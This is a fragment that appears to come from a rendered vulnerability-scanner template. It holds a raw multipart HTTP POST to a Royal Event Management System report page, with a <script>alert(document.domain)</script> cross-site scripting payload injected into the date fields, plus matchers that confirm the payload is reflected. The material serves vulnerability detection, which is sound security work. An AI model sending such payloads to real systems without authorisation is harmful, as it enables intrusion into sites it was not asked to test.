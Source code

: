 ```
```

### Step - 2

```
POST /royal_event/btndates_report.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFboH5ITu7DsGIGrD

------WebKitFormBoundaryFboH5ITu7DsGIGrD
Content-Disposition: form-data; name="todate"

2022-12-22<script>alert(document.domain)</script>
------WebKitFormBoundaryFboH5ITu7DsGIGrD
Content-Disposition: form-data; name="search"

3
------WebKitFormBoundaryFboH5ITu7DsGIGrD
Content-Disposition: form-data; name="fromdate"

2022-06-22<script>alert(document.domain)</script>
------WebKitFormBoundaryFboH5ITu7DsGIGrD--

```

### Matchers

**Type - word**

- words
  1. \<script>alert(document.domain)\</script>
  2. Report from
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Royal Event Management System - Stored Cross-Site Scripting

## Description
